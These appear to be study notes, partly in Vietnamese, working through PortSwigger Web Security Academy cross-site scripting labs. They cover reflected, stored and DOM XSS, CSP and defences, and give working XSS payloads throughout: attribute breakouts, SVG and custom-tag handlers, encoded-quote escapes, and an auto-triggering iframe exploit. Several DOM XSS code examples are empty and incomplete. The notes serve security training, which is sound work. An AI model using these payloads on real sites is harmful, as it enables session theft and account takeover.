


# PortSwigger XSS
Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data. 

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application. 

## XSS Proof of concept
You can confirm most kinds of XSS vulnerability by injecting a payload that causes your own browser to execute some arbitrary JavaScript. It's long been common practice to use the `alert()` function for this purpose because it's short, harmless, and pretty hard to miss when it's successfully called. Unfortunately, there's a slight hitch if you use Chrome. From version 92 onward (July 20th, 2021), cross-origin iframes are prevented from calling `alert()`. In this scenario, `print()` usually works as an alternative

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
## XSS Main attack types
3 main types of XSS attacks:
- Reflected XSS, where the malicious script comes from the current HTTP request.
- Stored XSS, where the malicious script comes from the website's database.
- DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
### Reflected XSS
Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way (The data is "reflected" directly into the response)
Suppose a website has a search function which receives the user-supplied search term in a URL parameter:
```
https://insecure-website.com/search?term=gift
```

The application echoes the supplied search term in the response to this URL:
```
<p>You searched for: gift</p>
```

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:
```
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```
This URL results in the following response:
```
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

When the browser read to the `<script>` tag, it executes the script instead of rendering it to the screen.

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application. In the wild, these attacks are often carried out with fishing/social engineering technique. The need for an external delivery mechanism for the attack means that the impact of reflected XSS is generally less severe than stored XSS, where a self-contained attack can be delivered within the vulnerable application itself.
#### Lab: Reflected XSS into HTML context with nothing encoded
Using the search function, you can see that the search content is passed directly to the HTML file for the browser to render. We can make use of it by adding the script to the search bar
```js
<script> alert() </script>
```
#### How to defend against reflected XSS
- Test every entry point
- Submit random alphanumeric values. For each entry point, submit a unique random value and determine whether the value is reflected in the response
- Sending test payloads, determine the reflection context (will learn more in XSS Contexts) performing test attacks if the test payload is reflected anywhere

#### Reflected XSS Q&A
What is the difference between reflected XSS and stored XSS?
-  Reflected XSS arises when an application takes some input from an HTTP request and embeds that input into the immediate response in an unsafe way. With stored XSS, the application instead stores the input and embeds it into a later response in an unsafe way.

What is the difference between reflected XSS and self-XSS? 
- Self-XSS involves similar application behavior to regular reflected XSS, however it cannot be triggered in normal ways via a crafted URL or a cross-domain request. Instead, the vulnerability is only triggered if the victim themselves submits the XSS payload from their browser. Delivering a self-XSS attack normally involves socially engineering the victim to paste some attacker-supplied input into their browser. As such, it is normally considered to be a lame, low-impact issue. 

### Stored XSS
Stored XSS (also known as persistent or second-order XSS) arises when an application receives data from an untrusted source and includes that data within its later HTTP responses in an unsafe way. 

#### Lab: Stored XSS into HTML context with nothing encoded
When you submit a comment, it is stored in the database. When the blog post is viewed, the comment will be queried and put directly to the HTML file, thus execute the script.

To solve the lab, simply submit this comment:
```js
<script> alert() </script>
```
#### How to find and test for stored XSS vulnerabilities
Many stored XSS vulnerabilities can be found using Burp Suite's web vulnerability scanner. 

Testing for stored XSS vulnerabilities manually can be challenging. You need to test all relevant "entry points" via which attacker-controllable data can enter the application's processing, and all "exit points" at which that data might appear in the application's responses.

Entry points into the application's processing include:

Parameters or other data within the URL query string and message body.
The URL file path.
HTTP request headers that might not be exploitable in relation to reflected XSS.
Any out-of-band routes via which an attacker can deliver data into the application. The routes that exist depend entirely on the functionality implemented by the application: a webmail application will process data received in emails; an application displaying a Twitter feed might process data contained in third-party tweets; and a news aggregator will include data originating on other web sites.

The exit points for stored XSS attacks are all possible HTTP responses that are returned to any kind of application user in any situation.

The first step in testing for stored XSS vulnerabilities is to locate the links between entry and exit points, whereby data submitted to an entry point is emitted from an exit point. The reasons why this can be challenging are that:

Data submitted to any entry point could in principle be emitted from any exit point. For example, user-supplied display names could appear within an obscure audit log that is only visible to some application users.
Data that is currently stored by the application is often vulnerable to being overwritten due to other actions performed within the application. For example, a search function might display a list of recent searches, which are quickly replaced as users perform other searches.

To comprehensively identify links between entry and exit points would involve testing each permutation separately, submitting a specific value into the entry point, navigating directly to the exit point, and determining whether the value appears there. However, this approach is not practical in an application with more than a few pages.

Instead, a more realistic approach is to work systematically through the data entry points, submitting a specific value into each one, and monitoring the application's responses to detect cases where the submitted value appears. Particular attention can be paid to relevant application functions, such as comments on blog posts. When the submitted value is observed in a response, you need to determine whether the data is indeed being stored across different requests, as opposed to being simply reflected in the immediate response.

When you have identified links between entry and exit points in the application's processing, each link needs to be specifically tested to detect if a stored XSS vulnerability is present. This involves determining the context within the response where the stored data appears and testing suitable candidate XSS payloads that are applicable to that context. At this point, the testing methodology is broadly the same as for finding reflected XSS vulnerabilities. 

### Cross-site scripting contexts
#### Lab: Reflected XSS into HTML context with most tags and attributes blocked

Most doesn't mean all. Use PortSwigger's XSS Cheatsheet and Burp Intruder to find the tag the website allows. Continue to insert the payload into the search bar. You can see that while other tags return a status code of 400, `<body>` tag return 200. 

We still need to find the correct attribute. Continue using XSS Cheatsheet to find the allowed HTML attribute that goes with body. You can see that while there are many attributes that are allowed, all of them need user interaction to trigger, which is not what the lab wants. 

Go to the exploit server and paste the following code, replacing `YOUR-LAB-ID` with your lab ID: 
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

Click __Store__ and __Deliver exploit to victim__. 

XSS attacks are always more dangerous when they are automatically triggered without any interactions.

The way to pass pass the with the Exploit Server using `<iframe>` and onload=this.style.width='100px', causing the website to render in an iframe, thus needing no user interaction. But for this attack to work , the victim need to open the link to the exploit server, so that the server send the malicious payload. 
#### Lab: Reflected XSS into HTML context with all tags blocked except custom ones
Any custom tag name is fine, it doesn't have to be `custom-tag` or `xss`, custom tags just need to have hyphen (`-`) to differentiate it from pre defined tags.

When the browser sees `<custom-tag>`, it considers the tag to be a `HTMLUnknownElement` in the DOM tree, thus the tag is valid and allowed to have global attributes and event handlers. 
 
Like i said before, XSS attacks are always more dangerous when they are automatic. We add the `id` attribute to the custom tag, that allows us to focus on a specific id element with the URL. `tabindex` attribute makes the tag focusable.

The `#x` is causing the page to immediately focus on the element with the id x.
```html
<script>
location = 'https://0a0000cc0374e76d808d03a600f60002.web-security-academy.net/?search=%3Ccustom%2Dtag+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

#### Lab: Reflected XSS with some SVG markup allowed
You can read more about SVG event handle sec here:

https://www.svggenie.com/blog/svg-event-handler-security

Fuzzing through the HTML tag list and event handlers using Burp Intruder and XSS Cheatsheet like in previous labs, you will notice that only `<svg>` tag and `onbegin` event handler are allowed. The problem now is how to trigger the event automatically. Group tag SMIL Animation in SVG (including `<animate>`, `<animateMotion>`, `<animateTransform>`, and `<set>`) support onbegin – which is triggered when an animation starts.

Insert this payload into the search bar.
```
<svg><animateTransform attributeName="transform" dur="1s" onbegin="alert(document.domain)"></animateTransform></svg>
```

#### Lab: Reflected XSS into attribute with angle brackets HTML-encoded
When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one. For example:
```html
"><script>alert(document.domain)</script>
```
More commonly in this situation, angle brackets are blocked or encoded, so your input cannot break out of the tag in which it appears. Provided you can terminate the attribute value, you can normally introduce a new attribute that creates a scriptable context, such as an event handler. For example:
```html
" autofocus onfocus=alert(document.domain) x="
```

The above payload creates an `onfocus` event that will execute JavaScript when the element receives the focus, and also adds the `autofocus` attribute to try to trigger the `onfocus` event automatically without any user interaction. Finally, it adds `x="` to gracefully repair the following markup. 


In the lab, our output in passed directly into the `value` attribute, something like this: 
```
<input type="text" placeholder="Search the blog..." name="search" value="what ever i type here is the same shit">
```
With the angle brackets be HTML encoded, you can break out of the `value` attribute and create your new attribute. The attack payload is exactly the same as the the provided example:
```
" autofocus onfocus=alert() x="
```

The value will be passed into the `value` attribute of the `<input>` tag like this:
```html
<input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert()" x="">
```
#### Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context. Here, you can execute JavaScript without needing to terminate the attribute value. For example, if the XSS context is into the `href` attribute of an `anchor tag`, you can use the `javascript` pseudo-protocol to execute script. Submit a comment in any post with and insert this payload to the website section:
```
javascript:alert()
```
This will be passed into the `href` attribute as the following
```html
<a id="author" href="javascript:alert()">ruhe</a>
```

---
I. Tại sao `href` lại có thể bị khai thác?

Thuộc tính `href` của thẻ `<a>` được thiết kế để nhận một **URI (Uniform Resource Identifier)**. Trình duyệt xử lý thuộc tính `href` theo hai bước:

a. **Phân tích giao thức (Scheme/Protocol):** Trình duyệt kiểm tra phần văn bản trước dấu hai chấm `:` (ví dụ: `http:`, `https:`, `mailto:`, `tel:`, `javascript:`).

b. **Thực thi theo giao thức:**
   * **`https:`**: Trình duyệt điều hướng đến trang web mới.
   * **`mailto:`**: Trình duyệt mở ứng dụng quản lý Email.
   * **`javascript:`**: Trình duyệt không điều hướng mà biên dịch phần văn bản phía sau dấu hai chấm thành mã JavaScript và thực thi trực tiếp trong ngữ cảnh (context) của trang hiện tại.

Do ứng dụng web không kiểm tra (sanitize/validate) xem liên kết do người dùng nhập vào có sử dụng giao thức an toàn (`http://` hoặc `https://`) hay không, dữ liệu đầu vào bị chèn thẳng vào thuộc tính `href`. Điều này cho phép kẻ tấn công thực thi mã độc mà không cần phải đóng thẻ HTML hay thoát khỏi chuỗi định danh (`"` hoặc `'`).

II. `javascript:` Pseudo-protocol là gì?

`javascript:` là một **URL scheme / pseudo-protocol** (giao thức giả) được W3C và các trình duyệt hỗ trợ từ thời kỳ đầu của Web.

* **Cấu trúc:** `javascript:<đoạn_mã_JS_cần_chạy>`
* **Mục đích ban đầu:** Cho phép nhà phát triển thực thi nhanh một đoạn script khi người dùng nhấp vào liên kết mà không cần tải lại trang (*ví dụ: Bookmarklet — đoạn mã lưu trên thanh dấu trang để cung cấp tiện ích nhanh*).
* **Đặc tính bảo mật:** Mã JavaScript chạy dưới giao thức `javascript:` có toàn quyền truy cập vào DOM, Cookie, LocalStorage... của trang web hiện tại (tuân theo *Same-Origin Policy*).

III. Các vị trí khác có thể sử dụng `javascript:` Pseudo-protocol

Bất kỳ thuộc tính HTML hoặc API nào nhận đầu vào là một URL/URI đều có nguy cơ bị khai thác bằng `javascript:` nếu thiếu cơ chế kiểm tra giao thức.

A. Thuộc tính HTML nhận URL
* **Thẻ `<a>` & `<area>`:** `href="javascript:..."`
* **Thẻ `<iframe>`:** `src="javascript:..."` *(Kỹ thuật phổ biến để bypass các bộ lọc XSS)*
* **Thẻ `<form>`:** `action="javascript:..."` *(Kích hoạt khi người dùng gửi form)*
* **Thẻ `<button>` / `<input type="submit">`:** `formaction="javascript:..."`
* **Thẻ `<object>` & `<embed>`:** `data="javascript:..."` hoặc `src="javascript:..."`
* **Thẻ `<base>`:** `href="javascript:..."` *(Thay đổi hành vi của toàn bộ liên kết tương đối trên trang)*

B. Trong CSS (Môi trường/Trình duyệt cũ)
* **Hàm `url()` trong CSS:** `<main style="background-image: url('javascript:...')">`  
  *(Các trình duyệt hiện đại đã chặn `javascript:` bên trong CSS `url()`, nhưng rủi ro vẫn tồn tại trên các trình duyệt cũ hoặc ứng dụng nhúng như Electron/WebView).*

C. Trong JavaScript APIs
* **`window.location`:** `window.location = 'javascript:alert(1)'`
* **`window.open()`:** `window.open('javascript:alert(1)')`

---

#### Lab: Reflected XSS in canonical link tag

https://portswigger.net/research/xss-in-hidden-input-fields

Lab Overview

- **Target Vulnerability:** Reflected Cross-Site Scripting (XSS)
- **Injection Context:** HTML attribute (`href` attribute inside a `<link rel="canonical">` tag)
- **Protection Mechanism:** The application HTML-encodes angle brackets (`<` and `>`), preventing direct injection of new HTML elements.


Reflection Identification:

- During testing, it was observed that when accessing the application's root path or supplying query parameters in the URL, the server reflects the user-controlled input directly into the `href` attribute of the canonical link tag located within the page's `<head>` section.

**Example:**

```html
<link rel="canonical" href="https://vulnerable-website.com/?search=test">
```

Because the query string is inserted into an HTML attribute without sufficient sanitization, it becomes possible to inject malicious payloads by breaking out of the attribute context.

Injection Point:

- The vulnerable reflection occurs within the `href` attribute of the canonical link tag:

```html
<link rel="canonical" href="https://vulnerable-website.com/?search=INPUT">
```

User-supplied input is embedded directly into the attribute value, creating an opportunity for attribute-based XSS attacks.

Although angle brackets are HTML-encoded by the application, it is still possible to exploit the vulnerability by:

1. Closing the existing `href` attribute with a quotation mark (`"`).
2. Injecting a new event handler attribute.
3. Triggering JavaScript execution through the injected event.

**Payload:**

```text
?search="accesskey="x"onclick="alert(document.domain)
```

Resulting HTML:

```html
<link rel="canonical"
      href="https://vulnerable-website.com/?search="
      accesskey="x"
      onclick="alert(document.domain)">
```

This injects a new `onclick` event handler into the tag.

To execute the payload:

1. Press the assigned access key combination:
   - **Windows/Linux:** `ALT + SHIFT + X`
   - **macOS:** `CTRL + OPTION + X`
2. The browser focuses the element associated with the access key.
3. The injected `onclick` event fires, executing the JavaScript payload.


#### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped
When the XSS context is some existing JavaScript within the response, a wide variety of situations can arise, with different techniques necessary to perform a successful exploit.

In the simplest case, it is possible to simply close the script tag that is enclosing the existing JavaScript, and introduce some new HTML tags that will trigger execution of JavaScript. For example, if the XSS context is as follows:
```html
<script>
...
var input = 'controllable data here';
...
</script>
```
then you can use the following payload to break out of the existing JavaScript and execute your own:
```html
</script>
```

The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks of script, and only later performs JavaScript parsing to understand and execute the embedded scripts. The above payload leaves the original script broken, with an unterminated string literal. But that doesn't prevent the subsequent script being parsed and executed in the normal way. 

This lab is easy enough. You just have to insert payload so that it breaks out of the `<script>` tag and open/execute a new one, any auto trigger element is fine:
```html
</script>
or
</script><input autofocus onfocus="alert()>
...
```

#### Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

In cases where the XSS context is inside a quoted string literal, it is often possible to break out of the string and execute JavaScript directly. It is essential to repair the script following the XSS context, because any syntax errors there will prevent the whole script from executing.

Some useful ways of breaking out of a string literal are:
```
'-alert(document.domain)-'
';alert(document.domain)//
```

#### Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Some applications attempt to prevent input from breaking out of the JavaScript string by escaping any single quote characters with a backslash. A backslash before a character tells the JavaScript parser that the character should be interpreted literally, and not as a special character such as a string terminator. In this situation, applications often make the mistake of failing to escape the backslash character itself. This means that an attacker can use their own backslash character to neutralize the backslash that is added by the application.

For example, suppose that the input:
```
';alert(document.domain)//
```
gets converted to:
```
\';alert(document.domain)//
```
You can now use the alternative payload:
```
\';alert(document.domain)//
```
which gets converted to:
```
\\';alert(document.domain)//
```

Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds. 
#### Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
When the XSS context is some existing JavaScript within a quoted tag attribute, such as an event handler, it is possible to make use of HTML-encoding to work around some input filters.

When the browser has parsed out the HTML tags and attributes within a response, it will perform HTML-decoding of tag attribute values before they are processed any further. If the server-side application blocks or sanitizes certain characters that are needed for a successful XSS exploit, you can often bypass the input validation by HTML-encoding those characters.

For example, if the XSS context is as follows:
```
<a href="#" onclick="... var input='controllable data here'; ...">
```
and the application blocks or escapes single quote characters, you can use the following payload to break out of the JavaScript string and execute your own script:
```
&apos;-alert(document.domain)-&apos;
```

The `&apos;` sequence is an HTML entity representing an apostrophe or single quote. Because the browser HTML-decodes the value of the onclick attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds. 

__Solution:__
When submit a comment, the website section will be parsed into the `tracker.track` function. What we need to do is to break out of this function and call our `alert()`

Submit the comment in any post, insert this payload in the Website section:
```
http:&apos;&rpar;&semi;alert&lpar;&rpar;&sol;&sol;
```
except for the `:` to bypass the input `http:` pattern, HTML-encode every other character. This 

This will the parsed into the browser:
```
<a id="author" href="http:');alert()//" onclick="var tracker={track(){}};tracker.track('http:');alert()//');">butcher</a>
```
#### Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
avaScript template literals are string literals that allow embedded JavaScript expressions. The embedded expressions are evaluated and are normally concatenated into the surrounding text. Template literals are encapsulated in backticks instead of normal quotation marks, and embedded expressions are identified using the ${...} syntax.

For example, the following script will print a welcome message that includes the user's display name:
```
document.getElementById('message').innerText = `Welcome, ${user.displayName}.`;
```
When the XSS context is into a JavaScript template literal, there is no need to terminate the literal. Instead, you simply need to use the ${...} syntax to embed a JavaScript expression that will be executed when the literal is processed. For example, if the XSS context is as follows:
```
<script>
...
var input = `controllable data here`;
...
</script>
```
then you can use the following payload to execute JavaScript without terminating the template literal:
```html
${alert(document.domain)}
```
__Solution:__

In this lab, conventional XSS characters—including angle brackets, single quotes, double quotes, backslashes, and backticks—are Unicode-escaped by the server. 

However, because the reflection occurs inside a JavaScript template literal, we can exploit the template interpolation syntax without needing any of those escaped characters.

Insert the following payload to the search input:
```
${alert()}
```
The server reflects the payload into the script tag as follows:
```html
<script>
  var message = `0 search results for '${alert()}'`;
  document.getElementById('searchMessage').innerText = message;
</script>
```

### XSS via client-side template injection
We'll learn about this later on template injection topic
### CSP (Content security policy)
CSP is a browser security mechanism that aims to mitigate XSS and some other attacks. It works by restricting the resources (such as scripts and images) that a page can load and restricting whether a page can be framed by other pages.

To enable CSP, a response needs to include an HTTP response header called `Content-Security-Policy` with a value containing the policy. The policy itself consists of one or more directives, separated by semicolons. 

#### SOP (Same origin policy)
Read more about it here

https://portswigger.net/web-security/cors/same-origin-policy

The same-origin policy is a browser security mechanism to prevent websites from attacking each other

The same-origin policy restricts scripts on one origin from accessing data from another origin. An origin consists of a __URI scheme, domain and port number__.
Consider the following URL:
```
http://normal-website.com/example/example.html
```

This uses the scheme `http`, the domain `normal-website.com`, and the port number `80`. 


#### Lab: Reflected XSS protected by very strict CSP, with dangling markup attack (isn't this supposed to be an expert lab ????)


To complete this lab, read more about dandling markup injection:

https://portswigger.net/web-security/cross-site-scripting/dangling-markup

### DOM-based XSS
DOM-based Cross-Site Scripting (DOM XSS) là một lỗ hổng bảo mật web xảy ra khi một ứng dụng JavaScript ở phía client xử lý dữ liệu từ một nguồn không đáng tin cậy một cách không an toàn và ghi dữ liệu đó trực tiếp vào Document Object Model (DOM)

Sự khác nhau giữa DOM XSS và reflected XSS là payload reflected XSS đi qua server trong DOM XSS thì không

```
// reflected XSS
Browser
   ↓
Request chứa payload
   ↓
Server
   ↓
Server phản hồi payload trong HTML
   ↓
Browser render
   ↓
XSS

```
```
// DOM XSS
Browser
   ↓
JavaScript đọc dữ liệu
   ↓
DOM Sink
   ↓
XSS
```
Để hiểu rõ cách thức hoạt động của **DOM-based Cross-Site Scripting (DOM XSS)**, cần nắm vững hai khái niệm quan trọng: **Source (Nguồn dữ liệu)** và **Sink (Điểm tiếp nhận dữ liệu)**. Đây là hai thành phần cốt lõi quyết định việc một ứng dụng có thể bị khai thác DOM XSS hay không.

---
Source (Nguồn dữ liệu): là nơi dữ liệu được đưa vào ứng dụng từ phía người dùng hoặc từ môi trường trình duyệt. Những dữ liệu này có thể bị kiểm soát hoặc chỉnh sửa bởi kẻ tấn công.
Các Source phổ biến bao gồm:

- `document.URL`
- `document.location`
- `location.href`
- `location.search`
- `location.hash`
- `document.referrer`
- `window.name`

Ví dụ:

```javascript
const userInput = location.hash;
```

Với URL:

```text
https://example.com/#<script>alert('XSS')</script>
```

Biến `userInput` sẽ nhận toàn bộ nội dung phía sau dấu `#`, bao gồm cả đoạn mã JavaScript độc hại.

---

Sink (Điểm tiếp nhận dữ liệu): là vị trí trong mã nguồn nơi dữ liệu được ghi vào và có khả năng được trình duyệt xử lý hoặc thực thi.

Một số Sink nguy hiểm thường gặp:

- `innerHTML`
- `outerHTML`
- `document.write()`
- `eval()`
- `setTimeout()`
- `setInterval()`
- `insertAdjacentHTML()`

Ví dụ:

```javascript
document.getElementById("content").innerHTML = userInput;
```

Nếu `userInput` chứa mã JavaScript độc hại, trình duyệt có thể diễn giải và thực thi đoạn mã đó, dẫn đến lỗ hổng XSS.

---

DOM XSS xuất hiện khi dữ liệu từ một **Source** được truyền đến một **Sink** mà không trải qua bất kỳ bước kiểm tra, mã hóa hoặc làm sạch dữ liệu nào.

Quy trình khai thác thường diễn ra như sau:

1. Kẻ tấn công tạo một URL chứa payload độc hại.
2. Nạn nhân truy cập URL này.
3. JavaScript phía trình duyệt đọc dữ liệu từ Source.
4. Dữ liệu được truyền trực tiếp đến Sink.
5. Trình duyệt phân tích và thực thi payload.
6. Mã độc chạy dưới ngữ cảnh của website hợp lệ.

Đoạn mã dưới đây chứa lỗ hổng DOM XSS:

```javascript
var payload = location.hash.substring(1);
document.getElementById("output").innerHTML = payload;
```

Khi người dùng truy cập URL:

```text
https://example.com/#
```

Quá trình xử lý diễn ra như sau:

- `location.hash.substring(1)` lấy nội dung phía sau dấu `#`.
- Giá trị này được lưu vào biến `payload`.
- `payload` được chèn trực tiếp vào `innerHTML`.
- Trình duyệt phân tích thẻ HTML mới được thêm vào DOM.
- Sự kiện `onerror` được kích hoạt do ảnh không tồn tại.
- Hàm `alert('DOM XSS')` được thực thi.


```text
Người dùng nhập dữ liệu
          │
          ▼
      Source
          │
          ▼
 JavaScript xử lý
          │
          ▼
       Sink
          │
          ▼
 Trình duyệt thực thi
          │
          ▼
       DOM XSS
```


DOM XSS có một số đặc điểm nổi bật:

- Xảy ra hoàn toàn ở phía client (trình duyệt).
- Payload không nhất thiết được gửi tới máy chủ.
- Thường xuất hiện trong URL, fragment (`#`) hoặc các thuộc tính DOM.
- Khó phát hiện bằng các công cụ kiểm thử truyền thống vì phản hồi từ máy chủ có thể hoàn toàn sạch.
- Có thể tồn tại ngay cả khi phía máy chủ đã thực hiện các biện pháp lọc đầu vào.
---
#### Phòng chống DOM XSS

1. Tránh sử dụng các Sink không an toàn


Không nên sử dụng:

```javascript
element.innerHTML = userInput;
```

Thay vào đó nên sử dụng:

```javascript
element.textContent = userInput;
```

Hoặc:

```javascript
element.innerText = userInput;
```

2. Làm sạch dữ liệu đầu vào

Sử dụng thư viện chuyên dụng để loại bỏ các thành phần nguy hiểm:

```javascript
const cleanData = DOMPurify.sanitize(userInput);
```

3. Kiểm tra và xác thực dữ liệu

Chỉ cho phép dữ liệu đúng định dạng được xử lý:

```javascript
if (/^[a-zA-Z0-9 ]+$/.test(userInput)) {
    // xử lý dữ liệu
}
```

4. Áp dụng Content Security Policy (CSP)

CSP giúp hạn chế việc thực thi mã JavaScript trái phép và giảm thiểu tác động của các cuộc tấn công XSS.

Ví dụ:

```http
Content-Security-Policy: script-src 'self'
```

5. Sử dụng các API an toàn

Nên ưu tiên:

- `textContent`
- `innerText`
- `createElement()`
- `appendChild()`
- `setAttribute()`

Hạn chế hoặc tránh sử dụng:

- `innerHTML`
- `outerHTML`
- `eval()`
- `document.write()`
- `setTimeout(string)`
- `setInterval(string)`

DOM XSS là một dạng lỗ hổng **Cross-Site Scripting** xảy ra khi dữ liệu từ **Source** được truyền trực tiếp đến **Sink** mà không được kiểm soát hoặc làm sạch. Do toàn bộ quá trình khai thác diễn ra trong trình duyệt nên loại lỗ hổng này thường khó phát hiện hơn các dạng Reflected XSS và Stored XSS. Việc hiểu rõ mối quan hệ giữa **Source** và **Sink**, đồng thời sử dụng các kỹ thuật xử lý dữ liệu an toàn, là yếu tố quan trọng giúp ngăn chặn hiệu quả các cuộc tấn công DOM XSS.

__Tool test DOM XSS: DOM Invader extension in Burp Suite__
```
https://portswigger.net/burp/documentation/desktop/tools/dom-invader
```
#### Lab: DOM XSS in `document.write` sink using source `location.search`
This lab demonstrates a **DOM-Based Cross-Site Scripting (DOM XSS)** vulnerability. The application takes untrusted user input directly from URL query parameters and passes it into a dangerous JavaScript execution sink, `document.write()`, without applying any validation, sanitization, or output encoding.
```javascript
new URLSearchParams(window.location.search).get('search')
```

This source extracts the value of the `search` parameter directly from the browser's URL.

Example:

```text
https://vulnerable-site.com/?search=test
```

The extracted value becomes:

```javascript
query = "test";
```

Since users fully control URL parameters, the value should always be treated as untrusted input.

---

__Sink__

```javascript
document.write(...)
```

`document.write()` is considered a dangerous DOM sink because it writes raw HTML directly into the document during page rendering.

If attacker-controlled input reaches this sink without proper encoding or sanitization, the browser interprets the content as HTML and may execute malicious JavaScript.

---

Execution Flow

1. Parameter Extraction

When a user visits a URL containing a `search` parameter, JavaScript extracts its value and stores it in the `query` variable.

Example:

```text
https://vulnerable-site.com/?search=payload
```

Code:

```javascript
const query =
    new URLSearchParams(window.location.search)
        .get('search');
```

Result:

```javascript
query = "payload";
```


2. Dynamic HTML Generation

The application calls:

```javascript
trackSearch(query);
```

Inside this function, the value of `query` is concatenated into an HTML string that creates an `` element:

```javascript
''
```

Example:

```javascript
query = "test";
```

Generated HTML:

```html

```

Because the input is inserted directly through string concatenation, special characters supplied by an attacker remain intact.

3. DOM Injection

The generated HTML string is passed into:

```javascript
document.write(...)
```

Example:

```javascript
document.write(
    ''
);
```

The browser then parses and inserts the resulting HTML into the DOM.

4. Attribute Injection and Payload Execution

Since the `query` value is not encoded or sanitized, an attacker can inject characters that break out of the existing `src` attribute and introduce new HTML attributes or elements.

__Payload:__

```text
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%20onload=alert()%20x=
```

A new `` element will be written into the DOM: 

```html

```


#### Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element
In some situations the content that is written to document.write includes some surrounding context that you need to take account of in your exploit. For example, you might need to close some existing elements before using your JavaScript payload. 

Inspect the script of the website:
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
   document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
   if(stores[i] === store) {
         continue;
   }
   document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');    
```

